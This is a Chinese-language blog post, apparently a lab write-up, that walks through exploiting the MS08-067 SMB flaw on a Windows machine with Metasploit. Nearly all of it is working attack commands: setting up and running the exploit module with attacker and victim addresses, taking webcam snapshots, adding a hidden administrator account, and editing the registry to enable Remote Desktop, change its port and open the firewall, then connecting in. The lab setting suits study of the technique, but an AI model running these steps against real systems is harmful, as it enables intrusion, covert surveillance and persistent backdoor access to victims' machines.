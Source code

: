 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 确定攻击者IP和受害者IP](#0x0-确定攻击者ip和受害者ip)
    - [攻击机](#攻击机)
    - [受害机](#受害机)
- [0x1 启动MSF](#0x1-启动msf)
- [0x2 启动摄像头](#0x2-启动摄像头)
- [0x3 创建用户](#0x3-创建用户)
- [0x4 开启远程桌面端口以及远程连接](#0x4-开启远程桌面端口以及远程连接)

<!-- /TOC -->
## 0x0 确定攻击者IP和受害者IP

### 攻击机
![](https://lcy2218.github.io/images/20210326-1.png)
### 受害机
![](https://lcy2218.github.io/images/20210326-2.png)

## 0x1 启动MSF
```c
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set lhost 192.168.88.130
    set rhost 192.168.88.139
```
![](https://lcy2218.github.io/images/20210326-3.png)

```c
    run
```

![](https://lcy2218.github.io/images/20210326-4.png)

```c
    ipconfig
```

![](https://lcy2218.github.io/images/20210326-5.png)

## 0x2 启动摄像头

```c
    webcam_list
    webcam_snap
```

![](https://lcy2218.github.io/images/20210326-6.png)

## 0x3 创建用户

```c
    net user lcy 2218 /add
    net localgroup administrators lcy /add  //把lcy加入管理员用户
```

![](/images/20210326-7.png)

## 0x4 开启远程桌面端口以及远程连接

```c
    REG query HKLM\SYSTEM\CurrentControlSet\Controly\Terminal" "Server\WinStations\RDP-Tcp 
    /v PortNumber //查询终端端口
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections 
    /t REG_DWORD /d 00000000 /f //开启XP&2003终端服务
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp 
    /v PortNumber /t REG_DWORD /d 0x7d8 /f   //更改终端端口为2008(0x7d8)默认为3389（0xD3D）
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\

    Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 
    3389:TCP:*:Enabled:@xpsp2res.dll,-22009 /f
    //取消xp&2003系统防火墙对终端服务的限制及IP连接的限制
    
    rdesktop -f -a 16 192.168.88.139:3389
    //在另一个终端开启远程桌面
```

![](/images/20210326-8.png)
![](/images/20210326-9.png)
